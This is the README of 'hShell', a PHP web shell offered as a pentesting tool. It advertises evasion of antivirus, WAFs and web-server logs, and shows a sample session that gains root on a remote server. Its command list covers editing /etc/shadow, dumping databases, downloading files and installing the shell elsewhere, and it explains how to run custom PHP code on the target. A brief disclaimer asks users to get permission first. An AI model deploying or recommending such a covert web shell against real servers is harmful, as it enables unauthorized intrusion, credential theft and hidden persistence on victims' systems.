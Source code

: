 # WHK hShell

Web-Shell for professional use as a pentester writed in <?php


## Advantage

- The core of the shell is on the client's side.
- It leaves no traces because the code is not stored on the server side.
- No server-side interventions are required to perform updates.
- Interpretable code sent from the client, this prevents the detection of the antivirus.
- Transport of obfuscated code for the prevention of WAF detection.
- The data transport uses HTTP / POST requests, prevents leaving traces in logs of WEB servers.
- Use random payload on the HTTP / POST body for prevention of WAF detection.
- Supports large amounts of code due to the sending of requests via multipart/form-data.


## How to use?

The php server script must be uploaded on the server to be controlled. Then you must run the client.php from the terminal and indicate the path of the server.php:

    whk@machine:~$ php client.php 
     -=[ Wellcome to H Shell 💀 v0.5 Alpha ]=-
    + Connect to url: https://whk.cl/server.php
    + Connecting ...
    + Connected!
    h-Shell:/home/whk.cl/public_html/> id
    uid=0(root) gid=0(root)
    hShell:/home/whk.cl/public_html/> exec ls -la
    total 1
    drwxrwxr-x.  5 whk.cl whk.cl  4096 Feb 10 17:33 .
    drwx------.  6 whk.cl whk.cl  4096 Oct  8 15:08 ..
    -rw-r--r--.  1 root   root    1388 Feb 10 21:38 server.php
    hShell:/home/whk.cl/public_html/> force-exec explicit ls -la
    total 1
    drwxrwxr-x.  5 whk.cl whk.cl  4096 Feb 10 17:33 .
    drwx------.  6 whk.cl whk.cl  4096 Oct  8 15:08 ..
    -rw-r--r--.  1 root   root    1388 Feb 10 21:38 server.php
    h-Shell:/home/whk.cl/public_html/> exit
    ! Bye.


## Commands available

    hShell:/> help
      Command             | Description
     ────────────────────────────────────────────────────────────── 
      connect [url]       : Connect to Server WebShell script.
      help                : Show help of the client.
      cat                 : Show the content of remote file.
      tail [file path]    : Read the last lines of specific file.
      cd [directory]      : Navigate to specific remote directory.
      shell [command]     : Execute a simple command in remote server using the           current remote path. Detect automatic available method on the server. See the call-exec command. Alias of exec and system commands.
      force-shell [method] [command] : Force execute a simple command in remote server using an specific php method in current path. Alias of force-exec and force-system commands. Available methods: system, exec, shell_exec, passthru, popen, proc_open, explicit (using double quotes `).
      edit [editor command] [file path] : Edit remote file with specific local command edtor, example: edit vi /etc/shadow
      nano [file path]    : Edit remote file with nano editor on the local system.
      vi [file path]      : Edit remote file with vi editor on the local system.
      vim [file path]     : Edit remote file with vim editor on the local system.
      gedit [file path]   : Edit remote file with gedit editor on the local system.
      notepad [file path] : Edit remote file with notepad editor on the local system.
      sublime [file path] : Edit remote file with sublime text editor on the local system.
      uninstall           : Uninstall the current WebShell on the server.
      install [file path] : Install the WebShell on the specific remote parh.
      mysql [host] [port] [user] [password] : Start an interative MySQL shell connection on the remote server.
      mysqldump [host] [port] [user] [password] [local file] : Make a dump from remote database to local file .sql
      download [remote path] [local path] : Download a backup of file or directory from server to local path.
      upload [local path] [remote path] : Upload a local file or directory to remote directory (maintains the same permits)
      rm [path]           : Delete the specific file or directory path.
      mkdir [path]        : Make a directory on the server.
      phpinfo             : Show the full info of the php, libraries and enviroments of the server.
      id                  : Show the full info of the current user and group on the server.
      ls                  : List files and folders of the current path on the server. Alias of ll and dir commands.
      shellpath           : Show the current local path of the WebShell server.
      pwd                 : Show the current local path on the server.
      uname               : Show the full info of the System Operative of the server.
      exit                : Exit of the client but not remove the WebShell on the server. See uninstall.  Alias of quit command.


## Execute own codes without modifying the server

You can create and execute your own codes made in PHP language by creating specific functions for it.

### Howto make a custom functions?

In the client.php make a specific conditional between:

    }
    else if(in_array($command, array('exit', 'quit')))
    {

For example:

    }
    else if(in_array($command, array('custom_command')))
    {
        $result = $this->sendBuffer('
            $result = "done!";
        ');
        
        if($echo)
        {
            echo $result."\n";
        }
        
        return $result;
    }
    else if(in_array($command, array('exit', 'quit')))
    {

Where `$result = "done!";` is your code that will run on the server. The `$result` is the variable for return the string of result to the client.

For large return messages use callbacks for prevent exhaust of memory on the client, example:

    }
    else if(in_array($command, array('custom_command')))
    {
        $result = $this->sendBuffer('
            for($i = 0; $i <= 50000; $i++)
            {
                echo 'FOO';
            }
        ', 'self::callbackCommandGenericFlush', true);
        echo "\n";
    }
    else if(in_array($command, array('exit', 'quit')))
    {

See the `', 'self::callbackCommandGenericFlush', true);` when `self::callbackCommandGenericFlush` is the callback for print each line in real time without keep the lines in a local variable. Note: the out of buffer is a raw `echo`, dont use `$return`.

Now, call your command:

    hShell:/> custom_command

For arguments use `$argv`, is a array of arguments (separated by blank space). For join all arguments use `implde`, by example: `$argument = implode(' ', $argv)`.
For more help, see the source code or write a email to [me](whk@elhacker.net)


## Do not be bad
Use this script only under controlled environments where you have permission to execute it. There is no guarantee of its functionality or use, please proceed with discretion.


## How to contribute?

|METHOD                 |WHERE                                                                                        |
|-----------------------|---------------------------------------------------------------------------------------------|
|Donate                 |[Paypal](https://www.paypal.com/cgi-bin/webscr?cmd=_s-xclick&hosted_button_id=KM2KBE8F982KS) |
|Find bugs              |Using the [Issues tab](https://github.com/WHK102/hShell/issues)                              |
|Providing new ideas    |Using the [Issues tab](https://github.com/WHK102/hShell/issues)                              |
|Creating modifications |Using the [Pull request tab](https://github.com/WHK102/hShell/pulls)                         |
